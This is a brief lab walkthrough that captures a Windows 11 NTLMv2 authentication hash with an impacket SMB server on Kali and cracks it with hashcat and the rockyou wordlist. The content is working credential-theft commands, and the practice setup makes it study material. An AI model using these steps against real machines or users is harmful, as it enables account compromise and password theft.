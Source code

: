 # Steps:
1. In Win11 `Enable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol -All`
2. In Kali `python3 /usr/share/doc/python3-impacket/examples/smbserver.py SHARE /tmp/fakeshare -smb2support`
3. In Win11, browse `\\192.168.8.10\SHARE` in file explorer.
4. In Kali `Save the captured NTLMv2 authentication hash into ~/Desktop/ntlmv2.hash`
5. In Kali `hashcat -m 5600 ~/Desktop/ntlmv2.hash /usr/share/wordlists/rockyou.txt`

# Results
The result will be listed as Candidates.#1....: Password -> Password


